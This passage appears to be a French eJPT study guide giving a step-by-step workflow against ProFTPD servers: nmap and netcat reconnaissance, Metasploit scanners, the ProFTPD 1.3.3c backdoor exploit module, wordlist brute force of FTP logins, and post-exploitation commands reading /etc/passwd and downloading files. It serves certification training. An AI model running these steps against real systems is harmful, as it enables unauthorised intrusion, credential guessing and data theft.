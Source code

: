 
## 🎯 Phase 6: Workflow complet eJPT

### 1. Reconnaissance rapide
```bash
# Scan initial
nmap -sV -p 21 <target>

# Banner grabbing
nc -nv <target> 21
```

### 2. Identification ProFTPD et version
```bash
# Metasploit pour version précise
msfconsole -q
use auxiliary/scanner/ftp/ftp_version
set RHOSTS <target>
run

# Test anonyme automatique
use auxiliary/scanner/ftp/anonymous
set RHOSTS <target>
run
```

### 3. Exploitation selon la version
```bash
# Pour ProFTPD 1.3.3c (Backdoor)
use exploit/unix/ftp/proftpd_133c_backdoor
set RHOSTS <target>
check
exploit

# Si pas de backdoor, force brute
use auxiliary/scanner/ftp/ftp_login
set RHOSTS <target>
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
run
```

### 4. Post-exploitation
```bash
# Si shell obtenu via exploit
whoami
ls -la
cat /etc/passwd

# Si credentials obtenus
ftp <target>
# login avec creds trouvés
ls -la
get *
```

---
